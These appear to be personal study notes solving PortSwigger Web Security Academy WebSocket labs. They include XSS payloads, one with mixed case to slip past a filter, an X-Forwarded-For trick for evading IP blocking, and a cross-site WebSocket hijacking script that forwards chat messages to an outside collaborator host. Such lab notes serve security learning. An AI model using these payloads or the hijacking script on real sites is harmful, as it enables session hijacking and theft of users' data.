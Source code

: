 # Manipulating messages to exploit vulnerabilities
## This has an XSS vulnerability
- To exploit, interecpt the live chat message and change it to: `<img src=1 onerror='alert(1)'>`

# Cross-site web socket hijacking
- Occurs when only the session token is used in the handshake
- This is the exploit:
```html
<script>
    var ws = new WebSocket('wss://0a97007904d6e29880c2bccb00cd0079.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://qe8g9qt4z45jh7hrj2jrjzoyhpngb6zv.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

# Manipulating the WebSocket handshake to exploit vulnerabilities
- Again there is XSS, however this time if you send one it blacklists the IP 
    - You can use X-Forwarded-For to bypass this on the handshake
- Used repeater to reconnect with the header and used this payload: `<img src=1 oNeRrOr=alert`1`>`
